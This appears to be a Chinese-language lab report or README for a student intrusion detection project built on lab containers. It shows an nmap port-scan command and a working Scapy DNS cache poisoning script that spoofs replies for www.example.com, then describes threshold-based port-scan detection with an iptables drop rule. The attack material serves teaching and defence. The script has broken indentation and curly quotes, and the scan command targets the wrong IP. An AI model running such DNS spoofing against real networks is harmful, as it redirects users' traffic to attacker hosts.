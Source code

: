 ### 1.4 端口扫描
#### 相关容器：

* 攻击者容器A
   * IP：`10.9.0.1`
* 服务器容器B
    * IP：`10.9.0.5`

#### 攻击步骤：

在容器A上安装nmap程序，再从容器A通过nmap命令

```shell
nmap 10.9.0.1 -p1-200
```

实现从容器A扫描容器B的1到200端口。

### 1.2 DNS Poisoning

#### 相关容器：

* 攻击者容器A
    * IP：`10.9.0.1`
* 服务器容器B
    * IP：`10.9.0.5`
* 本地DNS
    * IP：`10.9.0.11`
####攻击步骤：
在容器A运行DNS Poisoning攻击程序，代码如下：

```python
#!/usr/bin/env python3 
from scapy.all import * 

def spoof_dns(pkt): 
      if (DNS in pkt and ’www.example.com’ in pkt[DNS].qd.qname.decode(’utf-8’)): 
      IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst) 
      UDPpkt = UDP(dport=pkt[UDP].sport, sport=53) 
      Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type=’A’, ttl=259200, rdata=’10.0.2.5’) 
      DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, an=Anssec) 
      spoofpkt = IPpkt/UDPpkt/DNSpkt 
      send(spoofpkt) 

f = ’udp and dst port 53’ 
pkt = sniff(iface=’br-43d947d991eb’, filter=f, prn=spoof_dns) 
```

当容器B运行dig指令

```shell
dig www.example.com
```

向DNS服务器申请www.example.com的IP时会被容器A监听并将错误IP返回给容器B污染容器B的DNS缓存，从而当容器B访问www.example.com时会直接跳转到错误的IP 10.0.2.5。

### 2.2 IDS框架

![Image text](/struct.png)

### 2.6 基于统计的扫描检测与防御

主要函数为`Statistic`以及`Port_Scan_Protect`

通过分析构造出来的端口扫描报文可以看出，端口扫描攻击往往都是同一个IP向受害者IP的不同端口发送TCP报文从而达到攻击效果。

因此，为了检测端口扫描，我们首先构造字典`IP_port`，在其中每个IP映射一个列表，列表中存放该IP向本机发送报文的目的端口。当某个IP对应列表的数量超过阈值100时，即判断该IP在向本机进行端口扫描，进而发出警报。
若为在线检测，则配置防火墙，对来自该IP的报文进行拦截，配置防火墙命令如下：

```shell
iptables -A INPUT -s src_IP -j DROP
```
